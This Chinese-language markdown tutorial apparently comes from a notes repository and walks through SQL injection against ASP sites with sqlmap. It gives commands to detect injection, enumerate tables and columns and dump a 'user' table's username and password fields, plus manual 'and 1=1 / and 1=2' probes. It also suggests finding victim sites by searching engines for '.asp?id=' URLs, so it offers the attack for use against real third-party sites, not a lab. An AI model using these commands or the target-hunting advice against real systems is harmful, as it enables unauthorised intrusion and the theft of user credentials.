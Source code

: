 001.sqlmap注入asp程序
---

目标网站：`http://www.example.com/news.asp?id=110`

```bash
sqlmap -u "http://www.example.com/news.asp?id=110" 
```

>  -u检测是否存在注入   
>  返回数据库的名字


```bash
sqlmap -u "http://www.example.com/news.asp?id=110"   --tables
```

> 列出user表的所有字段

```bash
 sqlmap -u "http://www.example.com/news.asp?id=110" --columns -T "user"
```

> 列出user表username,password字段中的所有记录并下载

```bash
 sqlmap -u "http://www.example.com/news.asp?id=110" --dump -C "username,password" -T "user"
```

> --dump  下载数据      
-C "username,password" 字段名 

注：
* 获取目标asp网站可在搜索引擎搜索`.asp?id=`

判断是否存在注入漏洞：
> `http://www.example.com/news.asp?id=110'` 返回错误  
`http://www.example.com/news.asp?id=110 and 1=1` 返回正常  
`http://www.example.com/news.asp?id=110 and 1=2` 返回错误


















